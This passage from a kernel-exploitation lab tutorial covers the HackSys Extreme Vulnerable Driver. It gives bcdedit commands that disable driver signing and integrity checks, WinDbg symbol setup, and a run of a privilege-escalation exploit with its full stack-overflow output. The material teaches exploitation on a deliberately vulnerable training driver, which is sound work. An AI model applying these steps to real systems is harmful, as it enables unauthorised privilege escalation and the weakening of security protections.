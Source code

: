    bcdedit.exe -set TESTSIGNING ON
    bcdedit.exe /set nointegritychecks on

Then we can load the "HEVD v3.00\driver\vulnerable\x64\HEVD.sys" which is signed.

#### Adding symbols
The precompiled package of HEVD comes with symbols (sdb file) that we can also add to our Debugger. First, let’s stop the Debugee by sending it a break signal, and have a look at the HEVD module, we can set a filter:


    lm m HEV*

We will see, that it does not have any symbols attached. Well, it can be easily fixed. First, turn on noisy symbol in order to print all the information about the paths to which WinDbg referred in search for the symbol. Then, try to reload the symbols:

    !sym noisy
    .reload

After moving the pdb file to the appropriate location on the Debugger machine, reload the symbols again. You can test them by trying to print all the functions from HEVD:

    .reload
    x HEVD!*

#### Testing the exploits
If the exploitation went successful, the requested application (cmd.exe) will be deployed with elevated privileges.

    HackSysEVDExploit.exe -s -c cmd.exe

                    ##     ## ######## ##     ## ########
                    ##     ## ##       ##     ## ##     ##
                    ##     ## ##       ##     ## ##     ##
                    ######### ######   ##     ## ##     ##
                    ##     ## ##        ##   ##  ##     ##
                    ##     ## ##         ## ##   ##     ##
                    ##     ## ########    ###    ########

                  HackSys Extreme Vulnerable Driver Exploits
                         Ashfaq Ansari (@HackSysTeam)
                           ashfaq[at]payatu[dot]com

        [+] Starting Stack Overflow Exploitation
        [+] Creating The Exploit Thread
                [+] Exploit Thread Handle: 0x40
        [+] Setting Thread Priority
                [+] Priority Set To THREAD_PRIORITY_HIGHEST
        [+] Getting Device Driver Handle
                [+] Device Name: \\.\HackSysExtremeVulnerableDriver
                [+] Device Handle: 0x44
        [+] Setting Up Vulnerability Stage
                [+] Allocating Memory For Buffer
                        [+] Memory Allocated: 0x003AFE38
                        [+] Allocation Size: 0x824
                [+] Preparing Buffer Memory Layout
                        [+] RET Value: 0x00D93060
                        [+] RET Address: 0x003B0658
                [+] EoP Payload: 0x00D93060
        [+] Triggering Kernel Stack Overflow
        [+] Completed Stack Overflow Exploitation